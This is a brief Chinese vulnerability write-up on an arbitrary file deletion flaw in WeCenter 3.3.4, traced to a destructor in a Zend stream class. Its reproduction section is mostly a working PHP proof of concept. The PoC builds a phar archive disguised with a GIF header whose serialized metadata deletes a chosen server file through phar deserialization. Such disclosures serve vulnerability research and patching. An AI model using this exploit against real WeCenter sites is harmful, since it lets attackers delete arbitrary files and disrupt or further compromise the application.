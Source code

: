 WeCenter 3.3.4 任意文件删除
===========================

一、漏洞简介
------------

二、漏洞影响
------------

WeCenter 3.3.4

三、复现过程
------------

### 任意文件删除

**system/Zend/Http/Response/Stream.php:\_\_destruct()**
方法中存在任意文件删除。

![](./.resource/WeCenter3.3.4任意文件删除/media/rId25.png)

### poc

    <?php
    class Zend_Http_Response_Stream
    {
        protected $_cleanup;
        protected $stream_name;

        public function __construct($stream_name)
        {
            $this->_cleanup = true;
            $this->stream_name = $stream_name;
        }
    }

    $stream_name = '/var/www/html/wecenter334/shell.php';
    $evilobj = new Zend_Http_Response_Stream($stream_name);
    // phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($evilobj);
    $phar->addFromString("foo.txt","bar");
    $phar->stopBuffering();

    ?>

